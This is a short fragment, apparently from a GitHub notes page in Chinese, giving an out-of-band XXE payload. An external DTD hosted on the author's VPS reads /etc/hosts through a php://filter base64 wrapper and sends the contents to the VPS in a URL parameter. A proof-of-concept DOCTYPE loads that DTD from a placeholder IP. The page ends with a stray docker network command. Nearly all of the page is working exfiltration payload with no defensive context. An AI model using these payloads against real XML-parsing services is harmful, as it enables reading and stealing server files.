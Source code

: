 ## payload 
在vps上的 xxe.dtd
```xml
<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/hosts">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://我的VPS地址/?p=%payl;'>">
```
poc：
```xml
<!DOCTYPE convert [ <!ENTITY % remote SYSTEM "http://xxx.xxx.xxx.xxx/xxe.dtd">%remote;%int;%trick;]>
```
docker network create --subnet=172.20.0.0/24 docker-br0